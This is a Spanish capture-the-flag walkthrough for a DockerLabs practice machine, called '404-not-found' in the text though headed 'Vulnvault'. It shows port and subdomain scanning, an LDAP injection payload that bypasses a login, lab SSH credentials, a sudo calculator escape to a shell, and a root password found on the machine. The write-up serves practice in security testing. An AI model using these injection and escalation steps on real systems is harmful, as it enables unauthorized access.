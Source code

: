 # Máquina Vulnvault

Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/cCU02YzZ#UQgH3W1lHg-K8PbRRMokRwzP-hKpYI1ae6MWNAQkOj8)

![imagen](https://github.com/user-attachments/assets/6d07b817-7094-41f2-87da-6b95ba21c993)

- **Nombre de la Máquina:** 404-not-found  
- **Sistema Operativo:** Linux  
- **Dificultad:** Medio  
- **Plataforma:** DockerLabs  
- **Dirección IP:** 172.17.0.2  
- **Vulnerabilidades Explotadas:**
  - Inyección LDAP en el formulario de inicio de sesión para eludir la autenticación y obtener credenciales de usuario.
- **Escalada de Privilegios:**
  - Ejecución de comandos a través de un script de calculadora con privilegios elevados, obteniendo acceso a la cuenta de `200-ok` y utilizando una contraseña encontrada en el sistema para obtener acceso root.

## Reconocimiento y Enumeración

Comenzamos realizando un escaneo general utilizando Nmap para identificar los puertos abiertos en la IP del objetivo:

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/ae1d1185-71a7-406e-a55b-876f24ab8cfe)

El escaneo reveló que los puertos 22 (SSH) y 80 (HTTP) están abiertos. Para un análisis más profundo, realizamos un escaneo enfocado en estos puertos para identificar los servicios y versiones que se ejecutan en ellos:

```bash
sudo nmap -p 22,80 -sCV 172.17.0.2 -oN targeted.txt
```

![imagen](https://github.com/user-attachments/assets/89d57419-9ae0-42bb-9b66-df4895ecbd87)

### Puerto 80 HTTP

Utilizamos `whatweb` para obtener más detalles sobre el servicio que corre en el puerto 80:

![imagen](https://github.com/user-attachments/assets/bf3d3928-9bb3-4ca4-911f-5c063d81d3b7)

Observamos que la página web redirige a un dominio llamado `404-not-found.hl`, por lo que lo añadimos al archivo `/etc/hosts`:

```bash
nano /etc/hosts
```

![imagen](https://github.com/user-attachments/assets/3ae8e486-7c6c-4d52-99a5-bc383594980d)

Una vez agregado el dominio, accedemos a la web. Tras investigar la página y realizar fuzzing para buscar directorios interesantes, encontramos un directorio `/participar.html`, aunque inicialmente parecía ser un "rabbit hole".

![imagen](https://github.com/user-attachments/assets/aba678d1-cd2d-40f3-a7b7-5bf11e5a7466)

Al descifrar una clave base64, obtuvimos el mensaje "Que haces?, mira en la URL". Esto nos llevó a buscar subdominios mediante fuzzing con `wfuzz`:

```bash
wfuzz -c -w /usr/share/wordlists/dirb/common.txt -H "Host: FUZZ.404-not-found.hl" -u http://404-not-found.hl/ -t 100 --hc 301,400
```

![imagen](https://github.com/user-attachments/assets/e47e53f0-22e4-40c9-9008-a74d1f90a828)

Descubrimos un subdominio llamado `info`, que también agregamos al archivo `/etc/hosts`:

![imagen](https://github.com/user-attachments/assets/189710aa-829a-4aca-affe-bd3ed6dfc0f2)

Al acceder a `info.404-not-found.hl`, encontramos una página de inicio de sesión, junto con un comentario en el código fuente indicando que el login usa LDAP:

```html
<!-- I believe this login works with LDAP -->
```

![imagen](https://github.com/user-attachments/assets/cebbb98e-f884-45cd-bde6-cf487e5a63a9)

## Explotación

Utilizamos una [inyección LDAP](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md) para eludir la autenticación. Ingresando `*)(uid=*))(|(uid=*` como nombre de usuario y cualquier contraseña, logramos iniciar sesión exitosamente:

![imagen](https://github.com/user-attachments/assets/d0b4adf0-2317-4efc-95fe-eb8ec5fff322)

![imagen](https://github.com/user-attachments/assets/2ba6a0db-af92-415c-bd5c-e2f400366fab)

Esto nos dio acceso a credenciales SSH para el usuario `404-page`:

```
user: 404-page
password: not-found-page-secret
```

Nos conectamos al servidor mediante SSH utilizando dichas credenciales:

```bash
ssh 404-page@172.17.0.2
```

![imagen](https://github.com/user-attachments/assets/bb0fe776-37b3-4edf-acab-5a0fae82c0dd)

## Escalada de Privilegios

Una vez dentro del sistema, verificamos los usuarios del sistema con:

```bash
cat /etc/passwd | grep bash
```

![imagen](https://github.com/user-attachments/assets/cec1acf8-c07c-4eed-bed2-7e23f71d6274)

Luego, utilizamos `sudo -l` para comprobar los permisos sudo disponibles. Descubrimos que podíamos ejecutar el script `/home/404-page/calculator.py` como el usuario `200-ok`:

![imagen](https://github.com/user-attachments/assets/f8bded7f-17f9-4537-b2af-36a18648a72a)

Ejecutamos el script como `200-ok` y descubrimos que se trataba de una calculadora funcional:

![imagen](https://github.com/user-attachments/assets/65182ed0-44a6-4ee1-a715-7bc8c4c97a4f)

Investigando más el sistema, encontramos un archivo en `/var/www` que contenía un mensaje indicando que el símbolo "!" seguido de un comando podía ser ejecutado en la calculadora, pero solo `200-ok` lo sabía. Probamos ingresando `!bash` y obtuvimos una shell como el usuario `200-ok`:

```bash
sudo -u 200-ok ./calculator.py
!bash
```

![imagen](https://github.com/user-attachments/assets/8a710a91-7934-49b4-b3e4-75d3c7a10fb3)

Finalmente, para escalar a root, encontramos dos archivos `.txt` en el directorio personal de `200-ok`. Uno de ellos contenía un hash y el otro una pista. Probamos con la palabra `rooteable` como contraseña para `root`, y con ello obtuvimos acceso root, completando el reto:

![imagen](https://github.com/user-attachments/assets/5621354e-9aa3-4d72-ade7-e4fce75d7c25)
